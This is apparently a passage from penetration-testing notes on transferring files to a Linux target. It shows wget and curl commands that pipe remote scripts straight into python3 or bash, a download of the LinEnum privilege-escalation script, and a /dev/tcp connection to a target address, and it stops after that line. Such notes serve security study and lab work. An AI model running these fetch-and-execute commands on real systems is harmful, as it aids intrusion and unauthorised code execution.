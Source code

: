 ### **Fileless Download with wget**

{% code overflow="wrap" %}
```
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Download a File Using cURL**

{% code overflow="wrap" %}
```
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Fileless Download with cURL**

{% code overflow="wrap" %}
```
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Download with Bash (/dev/tcp)

### **Connect to the Target Webserver**

{% code overflow="wrap" %}
```
exec 3<>/dev/tcp/10.10.10.32/80
```
{% endcode %}
